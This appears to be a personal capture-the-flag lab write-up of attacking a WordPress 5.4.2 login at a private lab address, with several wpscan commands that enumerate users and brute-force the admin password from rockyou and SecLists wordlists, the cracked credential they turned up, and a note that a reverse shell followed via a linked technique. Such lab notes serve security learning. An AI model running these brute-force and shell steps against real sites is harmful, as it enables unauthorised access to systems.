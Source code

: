 
### /blog/

![[Pasted image 20231012173102.png]]

in reasearch bar you can type something:

![[Pasted image 20231012173140.png]]

We can try a path traversal attack but no way.


### /wordpress/wp-login.php

`http://10.10.134.115/wordpress/wp-login.php`

https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/wordpress

#### Get the wordPress version

![[Pasted image 20231012175132.png]]


version = 5.4.2

`wpscan --rua -e ap,at,tt,cb,dbe,u,m --url http://10.10.134.115/wordpress/wp-login.php --wordlist /usr/share/wordlists/SecLists/Passwords/probable-v2-top1575.txt --username admin`

`wpscan --url http://10.10.134.115/wordpress/wp-login.php --wordlist /usr/share/wordlists/SecLists/Passwords/probable-v2-top1575.txt --username admin`

--enumerate u


`wpscan --url http://10.10.134.115/wordpress/wp-login.php --passwords /usr/share/wordlists/rockyou.txt --usernames admin`

```
[!] Valid Combinations Found:
 | Username: admin, Password: my2boys

```

If `http://10.10.134.115/wordpress/wp-login.php` is no reachable, we must modify the hosts’ file at **_/etc/hosts_**.

![](https://threatninja.net/wp-content/uploads/2021/01/%E3%82%B9%E3%82%AF%E3%83%AA%E3%83%BC%E3%83%B3%E3%82%B7%E3%83%A7%E3%83%83%E3%83%88-0003-01-10-9.06.58-1024x227.png)

We are in

![[Pasted image 20231014114428.png]]

Now we can obtain a reverse shell. (https://www.hackingarticles.in/wordpress-reverse-shell/)
Refresh the page `10.10.134.115/wordpress`

![[Pasted image 20231014115513.png]]

We have a rev-shell
